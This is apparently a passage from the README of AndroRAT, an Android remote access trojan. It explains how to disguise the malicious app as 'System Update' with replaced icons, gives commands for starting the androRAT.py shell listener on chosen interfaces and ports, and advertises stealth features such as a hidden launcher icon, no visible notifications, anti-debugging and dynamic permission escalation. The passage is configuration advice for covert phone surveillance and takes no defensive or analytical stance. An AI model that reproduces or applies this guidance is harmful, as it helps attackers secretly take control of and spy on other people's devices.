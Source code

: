 #### 🎨 **Custom Icons**
Replace icon files in `Android_Code/app/src/main/res/mipmap-*/`:
- `ic_launcher.png`
- `ic_launcher_round.png`

#### 🏷️ **App Metadata**
Edit `Android_Code/app/src/main/AndroidManifest.xml`:
```xml
<application
    android:label="System Update"
    android:theme="@style/AppTheme.NoActionBar">
```

### 🔧 **Network Configuration**

#### 🌐 **Custom Ports**
```bash
# Use custom port
python androRAT.py --shell -i 0.0.0.0 -p 9999

# Bind to specific interface
python androRAT.py --shell -i 192.168.1.100 -p 8000
```

#### 🔒 **Security Settings**
```python
# Enable debug mode
DEBUG = True

# Custom timeout settings
SOCKET_TIMEOUT = 30

# Connection retry settings
MAX_RETRIES = 5
RETRY_DELAY = 2
```

---

## 🛡️ **Security Features**

### 🔐 **Built-in Protections**

#### 🎭 **Stealth Mechanisms**
- **Hidden launcher icon** (default)
- **Background service execution**
- **Minimal system footprint**
- **No visible notifications**
- **Anti-debugging measures**

#### 🔒 **Permission Management**
- **Runtime permission requests**
- **Graceful permission denial handling**
- **Minimal permission requirements**
- **Dynamic permission escalation**
